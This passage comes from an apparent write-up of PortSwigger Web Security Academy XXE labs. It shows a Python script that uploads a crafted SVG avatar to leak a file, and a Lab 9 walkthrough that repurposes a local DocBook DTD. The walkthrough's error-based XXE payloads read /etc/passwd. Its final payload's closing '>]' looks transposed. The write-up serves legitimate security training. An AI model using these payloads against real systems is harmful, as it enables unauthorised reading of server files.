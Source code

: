 ```python
file = {
    'avatar':('evil.svg', open('exp.svg', 'r'), 'image/svg+xml')
}

form_data = {
    'csrf':csrf_token,
    'postId':'5',
    'comment':'test',
    'name':'test',
    'email':'test@test.com',
    'website':'http://test.com'
}

r = s.post(url + '/post/comment',data=form_data, proxies=proxies, verify=False, files=file)
if 'Your comment has been submitted' not in r.text:
    print('[-] Upload failed')
    sys.exit(1)

print('[+] Upload worked')
r = s.get(url + '/post?postId=5', proxies=proxies, verify=False)
match = re.findall(r'/post/comment/avatars\?filename=(\d.png)', r.text)
if match:
    for i in match:
        print(f'[+] Visit https://{HOST}.web-security-academy.net/post/comment/avatars?filename={i} to get answer')
```

## Lab 9: Repurposing Local DTD

This lab requires us to use the `/usr/share/yelp/dtd/docbookx.dtd` to exploit it, and within that particular DTD is an entity called `ISOamso`.

To solve the lab, firstly, we have to reference the local DTD, and I used a parameter entity: 

```xml
<!DOCTYPE exploit [
<!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
]>
```

Next, I have to redefine the `ISOamso` entity, and I took the payload from PayloadAllTheThings:

```xml
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
```

So the final payload is:

```xml
<!DOCTYPE exploit [
<!ENTITY % local SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
<!ENTITY % ISOamso '
<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;'>
%local;
>]
```